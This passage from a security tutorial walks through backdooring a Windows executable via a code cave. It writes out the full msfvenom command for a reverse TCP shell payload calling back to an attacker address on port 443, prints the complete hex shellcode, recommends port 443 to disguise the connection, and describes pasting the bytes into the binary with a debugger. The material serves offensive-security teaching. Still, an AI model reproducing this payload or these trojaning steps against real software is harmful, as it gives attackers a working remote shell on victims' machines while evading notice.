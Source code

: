 </div>

At the end of our code cave, we should have to restore that information
from the stack. We will see that later.

We are now ready to inject the shellcode.

## Generating shellcode

As you probably know, a shellcode is a piece of carefully arranged bytes
that can execute anything, commonly a shell.

In our example, we will create a shellcode that connects back from the
victim to the attacker machine and serves a reverse shell.

To do that, we will use `msvenom`:

``` console
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=443 EXITFUNC=none -f hex
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf
0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631
ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0
894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8001268
020001bb89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089
e357575731f66a125956e2fd66c744243c01018d442410c60044545056565646564e5656535668
79cc3f86ffd589e04e5646ff306808871d60ffd5bbaac5e25d68a695bd9dffd53c067c0a80fbe0
7505bb4713726f6a0053ffd5
```

Notice that I chose `LPORT=443` instead of the default `4444`. This will
hopefully help to disguise this reverse shell a little.

We can now insert those bytes on our code cave.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/secure-code-review/"
title="Get started with Fluid Attacks' Secure Code Review solution right now"
/>
</div>

Here we can see the addresses on where the `pushad/pushfd` instructions
were injected:

``` x86asm
004BB004 | 60                    | pushad                                |
004BB005 | 9C                    | pushfd                                |
```

To make some room for any needed encoder/decoder, I will use the address
`004BB060` as the place where the shellcode will be placed. To inject
the shellcode, we must select the output of `msfvenom` in `hex` format,
then on the debugger select an address region large enough to fit our
shellcode, then right-click, select `Binary` and then `Paste`.
